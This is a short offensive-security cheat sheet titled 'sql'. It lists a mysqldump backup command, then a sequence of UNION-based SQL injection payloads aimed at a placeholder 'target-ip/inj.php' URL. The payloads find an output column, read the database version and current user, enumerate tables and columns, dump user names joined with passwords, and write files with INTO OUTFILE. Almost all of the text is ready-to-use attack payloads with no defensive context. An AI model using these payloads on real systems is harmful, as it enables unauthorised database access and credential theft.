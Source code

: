 ```yaml
---
title: sql
weight: 20
---
```


# mysqldump
----------------

backup all mysql databases
```shell
mysqldump -u username -ppassword --all-databases --single-transaction
```
----------------

# sqli
----------------

check if you can find a row, where you can place your output  
```shell
http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8
```

get the version of the database  
```shell
http://target-ip/inj.php?id=1 union all select 1,2,3,@@version,5
```

get the current user  
```shell
http://target-ip/inj.php?id=1 union all select 1,2,3,user(),5
```

see all tables  
```shell
http://target-ip/inj.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables
```

get column names for a specified table  
```shell
http://target-ip/inj.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'
```

concat user names and passwords (0x3a represents “:”)  
```shell
http://target-ip/inj.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users
```

write into a file  
```shell
http://target-ip/inj.php?id=1 union all select 1,2,3,"content",5 into OUTFILE 'outfile'
```

----------------
